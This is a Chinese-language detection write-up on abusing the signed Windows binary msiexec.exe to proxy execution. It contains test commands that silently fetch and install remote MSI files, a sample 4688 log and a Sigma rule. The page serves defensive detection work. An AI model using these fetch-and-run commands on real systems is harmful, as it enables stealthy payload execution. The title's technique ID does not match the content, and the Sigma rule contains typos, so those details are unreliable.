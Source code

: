 # T1218-002-Win-签名的二进制代理执行：控制面板

## 来自ATT&CK的描述

攻击者可能滥用msiexec.exe来代理恶意有效负载的执行。Msiexec.exe是Windows安装程序的命令行实用程序，因此通常与执行安装包（.msi）相关联。Msiexec.exe由Microsoft进行数字签名。

攻击者可能滥用msiexec.exe来启动本地或网络可访问的MSI文件。Msiexec.exe还可以执行DLL。由于Msiexec.exe在Windows系统上是签名的，因此可以使用Msiexec.exe绕过不考虑其潜在滥用的应用程序控制解决方案。如果启用了AlwaysInstallElevated策略，Msiexec.exe的执行也可以提升为系统权限。

## 测试案例

来自微软的msiexec介绍：<https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/msiexec>

```yml
msiexec.exe /q /i "C:\path\xx.msi"
msiexec.exe /q /I http://8.8.4.4/xx.msi
msiexec.exe /y "C:\path\xx.dll"
```

## 检测日志

windows security

## 测试复现

仅做演示：

```yml
C:\Users\Administrator>msiexec.exe /q /I http://www.baidu.com/1.msi
```

## 测试留痕

windows 安全日志 4688

```yml
已创建新进程。

创建者主题:
 安全 ID:  QAX\Administrator
 帐户名:  Administrator
 帐户域:  QAX
 登录 ID:  0x9D23C

目标主题:
 安全 ID:  NULL SID
 帐户名:  -
 帐户域:  -
 登录 ID:  0x0

进程信息:
 新进程 ID:  0x19c
 新进程名称: C:\Windows\System32\msiexec.exe
 令牌提升类型: %%1936
 强制性标签:  Mandatory Label\High Mandatory Level
 创建者进程 ID: 0x690
 创建者进程名称: C:\Windows\System32\cmd.exe
 进程命令行: msiexec.exe  /q /I http://www.baidu.com/1.msi
```

## 检测规则/思路

### Sigma规则

```yml
title: 使用msiexec.exe执行恶意程序
description: 攻击者可能滥用msiexec.exe来启动本地或网络可访问的MSI文件。
status: experimental
references:
    - https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/msiexec 
logsource:
​    product: windows
​    service: security
detection:
​    selection:
​        EventID:
​               - 4688 #Windows 安全日志
         New Process Name: 'msiexec .exe' #Application Name
         Commanline: 
                - '/q'
                - '/y'
                - '/i'
​    condition: selection
level: low
```

## 建议

使用进程监控来监视msiexec.exe的执行和参数。将msiexec.exe的最近调用与已知良好自变量和执行的MSI文件或DLL的先前历史进行比较，以确定异常和潜在的对抗活动。在调用msiexec.exe之前和之后使用的命令参数在确定正在执行的MSI文件或DLL的来源和用途方面也可能很有用。

## 缓解措施

1. 禁用或删除功能或程序：将Msiexec.exe的执行限制为需要使用它的特权帐户或组，以减少恶意使用的机会。
2. 特权账户管理：将Msiexec.exe的执行限制为需要使用它的特权帐户或组，以减少恶意使用的机会。

## 参考推荐

MITRE-ATT&CK-T1218-007

<https://attack.mitre.org/techniques/T1218/007/>

跟着ATT&CK学安全之defense-evasion

<https://snappyjack.github.io/articles/2020-01/%E8%B7%9F%E7%9D%80ATT&CK%E5%AD%A6%E5%AE%89%E5%85%A8%E4%B9%8Bdefense-evasion>
